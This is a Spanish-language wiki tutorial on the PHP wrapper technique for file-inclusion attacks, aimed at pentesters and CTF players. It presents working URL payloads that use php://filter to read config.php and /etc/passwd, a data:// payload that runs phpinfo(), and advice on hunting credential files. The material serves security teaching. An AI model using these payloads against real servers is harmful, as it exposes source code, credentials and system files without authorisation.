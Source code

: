 ```yaml
---
Tema: "[[wiki]]"
---
```

# 🔗 Técnica Wrapper en PHP

---

## 📝 Introducción

### ¿Qué es la técnica Wrapper en PHP?

La **técnica Wrapper en PHP** consiste en aprovechar los "wrappers" o manejadores de flujos especiales que PHP ofrece para manipular archivos, recursos y datos de formas no convencionales. Es especialmente útil en escenarios de **File Inclusion** (inclusión de archivos) y puede permitir la **lectura, manipulación o exfiltración de archivos** en aplicaciones vulnerables.

### ¿Para qué sirve?

- **Leer archivos fuente** (incluso si el servidor solo ejecuta el código)
- **Bypassear restricciones** de inclusión de archivos
- **Explotar vulnerabilidades LFI/RFI** (Local/Remote File Inclusion)
- **Obtener información sensible** (credenciales, rutas, código fuente)

### Contextos de uso

- Pentesting de aplicaciones web PHP
- CTFs y laboratorios de hacking
- Auditoría de seguridad en servidores web

---

## 🛠️ Guía Práctica Paso a Paso

### 1. Identificar un parámetro vulnerable

Busca URLs como:

```
http://<ip_victima>/index.php?page=about.php
```

> [!info] Indicio de vulnerabilidad
> Si el parámetro `page` se utiliza para incluir archivos, podrías explotar wrappers de PHP.

### 2. Usar un wrapper para obtener el código fuente

El wrapper más común es **php://filter**. Permite aplicar filtros a la lectura de archivos.

#### Sintaxis básica

```
php://filter/convert.base64-encode/resource=archivo
```

#### Ejemplo real

```
http://<ip_victima>/index.php?page=php://filter/convert.base64-encode/resource=about.php
```

Esto devolverá el contenido de `about.php` codificado en base64 en vez de ejecutarlo.

### 3. Decodificar el resultado

Copia el contenido base64 obtenido y decodifícalo en tu terminal:

```bash
echo "PD9waHAgZWNobyAiSG9sYSBXb3JsZCI7ID8+" | base64 -d
```

> [!example] Salida esperada
> ```
> <?php echo "Hola World"; ?>
> ```

---

## ⚙️ Parámetros y Wrappers Comunes

| Wrapper | Descripción | Ejemplo de uso |
|---------|-------------|----------------|
| `php://filter` | Aplica filtros a la lectura de archivos | `php://filter/convert.base64-encode/resource=about.php` |
| `php://input` | Accede al cuerpo de la petición HTTP | `php://input` |
| `php://memory` | Acceso a un stream en memoria | `php://memory` |
| `php://temp` | Stream temporal en disco/memoria | `php://temp` |
| `data://` | Permite incluir datos inline (RFI) | `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==` |

> [!tip] El más usado en hacking es **php://filter** para leer código fuente.

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: LFI con php://filter

```bash
# URL vulnerable
http://victima.com/index.php?page=php://filter/convert.base64-encode/resource=config.php

# Decodificar el resultado
echo "<contenido_base64>" | base64 -d
```

### Ejemplo 2: LFI con data://

```bash
# Incluir código PHP directamente (si allow_url_include=On)
http://victima.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

### Ejemplo 3: Exfiltración de archivos sensibles

```bash
# Leer /etc/passwd codificado en base64
http://victima.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

---

## 🛡️ Tips y Buenas Prácticas

> [!tip] Consejos para pentesters
> - **Prueba siempre** con `php://filter/convert.base64-encode/resource=...` en parámetros de inclusión.
> - **Busca archivos sensibles**: `config.php`, `.env`, `database.php`, `/etc/passwd`.
> - **Automatiza la decodificación** con scripts bash o Python.
> - **Verifica si allow_url_include está activo** para probar wrappers como `data://` o `http://`.

> [!warning] Errores comunes
> - El wrapper puede estar deshabilitado por configuración (`allow_url_include=Off`).
> - Algunos servidores filtran la cadena `php://` o `filter`.
> - El archivo puede no ser legible por permisos.

---

## 📊 Tabla Comparativa de Wrappers

| Wrapper | ¿Permite leer archivos? | ¿Permite ejecutar código? | ¿Común en CTFs? |
|---------|-------------------------|--------------------------|-----------------|
| `php://filter` | ✅ | ❌ | ⭐⭐⭐⭐⭐ |
| `php://input` | ❌ | ✅ (en POST) | ⭐⭐⭐ |
| `data://` | ✅ | ✅ (si allow_url_include=On) | ⭐⭐⭐⭐ |
| `file://` | ✅ | ❌ | ⭐⭐⭐ |
| `zip://` | ✅ (archivos comprimidos) | ❌ | ⭐⭐ |

---

## 🔍 Diagrama de Flujo: Wrapper Attack

```mermaid
flowchart TD
    A[Identificar parámetro vulnerable] --> B[Probar wrapper php://filter]
    B --> C{¿Devuelve base64?}
    C -- Sí --> D[Decodificar y analizar código fuente]
    C -- No --> E[Probar otros wrappers o técnicas]
    D --> F[Buscar credenciales, rutas, vulnerabilidades]
    E --> G[Escalar ataque o buscar otro vector]
```

---

## 🧠 Resumen

- **Técnica wrapper**: Permite leer archivos fuente y exfiltrar información usando flujos especiales de PHP.
- **Ideal para**: LFI, RFI, análisis de código fuente, CTFs.
- **Clave**: Probar siempre en parámetros de inclusión de archivos.

---

> [!success] ¡Recuerda!
> La técnica wrapper es una de las más poderosas en pentesting web PHP. Siempre que veas un parámetro que incluye archivos, ¡prueba los wrappers!
